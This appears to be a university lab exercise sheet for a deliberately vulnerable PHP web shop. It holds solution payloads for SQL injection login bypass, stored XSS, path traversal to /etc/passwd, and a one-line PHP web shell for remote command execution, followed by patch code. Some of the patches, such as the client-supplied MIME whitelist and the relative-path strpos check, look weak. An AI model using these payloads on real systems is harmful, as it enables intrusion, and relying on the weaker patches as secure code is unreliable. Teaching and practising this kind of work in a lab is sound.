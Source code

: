 summary:  Exercises
id:  exercises
categories: PHP
enviroments: Web
author: Alexander Hayman

# Exercises

## Before you begin

In this code, you will have four challenges to complete relating to the vulnerabilities implemented on the vulnerable Pixelated Shop.

### Prerequisites

- Basic PHP Web Development Knowledge
- Basic SQL Knowledge


## Deploy a Docker Container

1. Install [docker](https://docs.docker.com/get-docker/)
2. Run `git clone https://git.cardiff.ac.uk/c1901577/vulnerable-web-application.git`
3. Go into the cloned folder `cd vulnerable-web-application`
4. Run `docker-compose up`
5. Browse to [http://localhost](http://localhost)

## Challenges

###  SQL Injection Challenge

The login page is vulnerable to an SQL Injection attack. Exploit the vulenrability in order to login as admin without a password.

###  Cross-Site Scripting Challenge

The account section on the website has a stored xss vulnerability. Exploit the vulnerability by creating a payload that creates an alert on the system. To verify this works, login as admin and view the admin panel.

### Relative Path Traversal

The method the website lists items is vulnerable to relative path traversal attack. Exploit this weakness to read /etc/passwd file on the system.

### Unrestricted File Upload

It looks like you can upload any file to the system in the user profile section. Use this weakness to upload a malicous php file in order to execute commands remotely. Verify this script works by executing linux commands.

### Secure the website

Now modify the code to patch all the vulnerabilities on the system. Use the attack method used for the challenges to verify that the vulnerability has been patched


## Attack Methods Solutions

###  SQL Injection Challenge

Use this payload for the login and password field to login as admin

```sql
admin' or ''='
or ''='
```
The query would look like this after the payload

```sql
SELECT username FROM user WHERE username='admin' or ''='' AND password='' or ''='' LIMIT 1
```
The WHERE clause returns true bypassing the requirement for a password.

### Cross-site Scripting  (XSS) Challenge 

Add this payload to the description form 

```html
<script>alert("hello")</script>
```

This payload will generate an alert box saying `"hello"` when the admin visits the admin panel.

### Unrestricted File Upload

Upload a one liner php script that can execute remote commands on the server

```php
<?php system("$_GET['cmd']") ?>
``` 
Access the file in the uploads directory and verify that the script works

```
http://127.0.0.1/uploads/uploadedFileName?cmd=id
```

This would output the id of www-data on the machine.

### Relative Path Traversal

Modify the url when viewing an item

```
http://127.0.0.1/shop.php?item=../../../../../etc/passwd
```

This would display the `/etc/passwd` file.


## Patching Solutions

### SQL Injection

Use a prepared statement to protect against SQL Injections

#### src/login.php

```sql
$checkUser = "SELECT username FROM user WHERE username=? AND password=? LIMIT 1";
$stmt = $db->prepare($checkUser);
$stmt->bind_param("ss", $username, $password);
$stmt->execute();
$result = $stmt->get_result();

$user = $result->fetch_assoc();
```

### Cross-site Scripting (XSS)

Use `htmlspecialchars()` function to convert special characters HTML entities so that the contents of the script tag does not get executed.

#### public/admin.php

```php
<?php if($user[1]): ?>
    <td> <?= htmlspecialchars($user[1]); ?></td>
<?php else: ?>
```

###  Unrestricted File Upload

Make a whitelist to only allow images formats to be uploaded.

#### src/updateProfile.php

```php
$fileType= $_FILES['uploadFile']['type'];
$allowedTypes = array("image/jpeg", "image/gif", "image/png");

if(in_array($fileType, $allowedTypes)) {
    //Upload File
}
else {
    //Invalid File Type
}
```

### Relative Path Traversal

Use base directories and compare whether the user's path is inside the allowed directory. If it is outside the directory, deny access.

```php
$baseDir = "items/";
    $realDir = realpath($baseDir);

    $userDir = $baseDir . $_GET["item"];
    $realUserDir = realpath($userDir);

    if($realUserDir === false || strpos($realUserDir, $baseDir) === false) {
        echo("Item does not exist!");
    }
    else {
        include($userDir);
    }
```